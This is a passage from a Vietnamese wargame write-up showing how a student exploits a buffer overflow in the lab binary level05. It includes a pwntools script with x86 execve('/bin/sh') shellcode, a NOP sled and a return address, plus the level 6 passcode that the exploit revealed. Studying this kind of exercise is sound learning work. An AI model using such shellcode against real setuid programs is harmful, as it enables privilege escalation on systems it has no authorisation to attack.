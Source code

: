 ![Untitled 23](https://user-images.githubusercontent.com/64480713/182160234-210d2d91-3bfb-443e-95a9-fe1640e21948.png)

> 💡 User vẫn là `level5` bởi vì chạy trong chương trình debug gdb

> Tuy nhiên khi pass argument vào chương trình `level05` thì em lại gặp lỗi:
> `Segmentation fault`. Nên em phải tạo 1 file python sử dụng library
> `[pwntools](https://docs.pwntools.com/en/stable/)` như sau:

- Tạo file `[exploit.py](http://exploit.py)` trong thư mục `tmp/duckymomo20012`:

```python
from pwn import *

payload = "\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xa0\xfb\xff\xbf"

p = process(["/levels/level05", payload])
p.interactive()
```

- Và chạy file `exploit.py`, ta sẽ có quyền truy cập vào user `level6`:

![Untitled 24](https://user-images.githubusercontent.com/64480713/182160239-2d299030-cf99-47d1-b499-c0724551049b.png)

> 💡 Passcode cho level 6 là: `fQ8W8YlSBJBWKV2R`

- Đổi user sang `level06` bằng cách chạy lệnh sau và nhập password là passcode
  vừa lấy được:

```bash
su - level6
```

## Tài liệu tham khảo:

- Tallan. 2022. *Exploring Buffer Overflows in C, Part Two: The Exploit | Tallan*
  .
  [online](https://www.tallan.com/blog/2019/04/04/exploring-buffer-overflows-in-c-part-two-the-exploit)
  Available at:
  <https://www.tallan.com/blog/2019/04/04/exploring-buffer-overflows-in-c-part-two-the-exploit/>
  [Accessed 31 July 2022].
- 2022. *Format String Exploitation-Tutorial*
  .
  [ebook](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf)
  Available at:
  <https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf>
  [Accessed 31 July 2022].
